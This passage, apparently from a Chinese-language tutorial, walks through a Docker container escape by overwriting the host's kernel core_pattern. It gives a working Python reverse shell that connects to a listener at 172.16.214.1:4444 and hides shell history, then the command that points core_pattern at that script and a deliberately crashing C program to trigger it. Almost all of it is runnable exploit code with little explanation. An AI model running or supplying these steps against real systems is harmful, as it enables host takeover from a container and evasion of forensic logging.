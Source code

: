 <img width="1400" src="/img/1650013469.png">

这就表示当前绝对路径为

```bash
/var/lib/docker/overlay2/5717cb9154218ec49579ae338cd1c236694d6a377d61fd6d17e11e49d1b1baad/merged
```

安装 vim 和 gcc

```bash
apt-get update -y && apt-get install vim gcc -y
vim /tmp/.t.py
```

创建一个反弹 Shell 的 py 脚本

```python
#!/usr/bin/python3
import  os
import pty
import socket
lhost = "172.16.214.1"
lport = 4444
def main():
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   s.connect((lhost, lport))
   os.dup2(s.fileno(), 0)
   os.dup2(s.fileno(), 1)
   os.dup2(s.fileno(), 2)
   os.putenv("HISTFILE", '/dev/null')
   pty.spawn("/bin/bash")
   # os.remove('/tmp/.t.py')
   s.close()
if __name__ == "__main__":
   main()
```

给 Shell 赋予执行权限

```bash
chmod 777 .t.py
```

写入反弹 shell 到目标的 proc 目录下

```bash
echo -e "|/var/lib/docker/overlay2/5717cb9154218ec49579ae338cd1c236694d6a377d61fd6d17e11e49d1b1baad/merged/tmp/.t.py \rcore    " >  /host/proc/sys/kernel/core_pattern
```

在攻击主机上开启一个监听，然后在容器里运行一个可以崩溃的程序

```c++
vim t.c
#include<stdio.h>
int main(void)  {
   int *a  = NULL;
   *a = 1;
   return 0;
}
gcc t.c -o t
./t
```
